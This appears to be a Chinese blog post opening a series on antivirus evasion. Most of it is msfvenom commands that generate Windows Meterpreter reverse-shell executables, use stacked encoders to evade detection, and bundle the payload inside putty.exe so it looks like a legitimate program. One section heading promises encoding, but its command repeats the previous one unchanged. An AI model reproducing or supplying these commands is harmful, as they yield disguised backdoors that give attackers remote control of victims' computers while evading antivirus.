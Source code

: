 ```yaml
---
layout: mypost
title: "免杀的艺术-开篇"
categories: [木马免杀]
---
```


## 前言

新的一个板块吧，我能写多少写多少吧，希望有朝一日能过了 360 核晶，然后其实也带大家一块去学习了汇编，逆向的一些知识，这部分的知识会在咱们免杀这一部分逐渐的派上用场，同时会加一些实战的例子供大家参考，一起去分析病毒样本

免杀，也就是反病毒（AntiVirus）与反间谍（AntiSpyware）的对⽴⾯，英⽂为  
Anti-AntiVirus（简写 Virus AV），逐字翻译为“反-反病毒”，翻译为“反杀毒技  
术”

## MSF 自编码

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.57.128 lport=4434 -e x86/shikata_ga_nai -b "\x00" -i 19 -f exe >cat.exe
```

## MSF 自捆绑免杀

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -x putty.exe -f exe -o payload3.exe
```

## MSF 自捆绑编码免杀

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -x putty.exe -f exe -o payload3.exe
```

## MSF 多重编码免杀

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp -e x86/call4_dword_xor -i 14 LHOST=192.168.8.124 LPORT=1122 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 13 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -b "&" -i 4 -f raw | msfvenom -a x86 --platform windows -e cmd/powershell_base64 -i 10 -x putty.exe -k -f exe > shell.exe
```